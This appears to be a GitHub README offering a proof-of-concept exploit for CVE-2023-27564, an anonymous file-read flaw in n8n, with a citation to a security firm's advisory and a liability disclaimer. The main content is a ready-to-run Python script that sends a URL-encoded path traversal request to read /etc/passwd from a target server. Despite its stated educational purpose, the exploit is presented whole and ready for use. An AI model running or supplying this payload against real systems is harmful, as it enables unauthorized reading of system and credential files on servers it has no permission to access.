 # Exploit for CVE-2023-27564

This vulnerability allows anonymous file read in n8n.

```python
import requests

url = "https://example.com/rest/data/filesystem:..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd:.svg"

response = requests.get(url)

print(response.status_code)
print(response.headers)
print(response.text)
```

# Source

https://www.synacktiv.com/sites/default/files/2023-05/Synacktiv-N8N-Multiple-Vulnerabilities_0.pdf

# Disclaimer

The Proof of Concept (PoC) provided in this repository is for educational and security research purposes only. The information and code are intended to be used by cybersecurity professionals and researchers to understand and protect against vulnerabilities in software and systems. Any use of this PoC, related information, or code for attacking targets without prior mutual consent is illegal and strictly prohibited.

By using this PoC, you agree that you understand the potential impact of the vulnerability it demonstrates and that you will use it responsibly and ethically. The authors of this PoC disclaim any liability for any misuse of this material or any damages that may occur from using the information and code provided. It is the end user's responsibility to obey all applicable local, state, national, and international laws.

The authors have made every effort to ensure the accuracy and reliability of the information provided in this repository. However, the information is provided "as is" without warranty of any kind. The authors do not accept any responsibility or liability for the accuracy, content, completeness, legality, or reliability of the information contained.
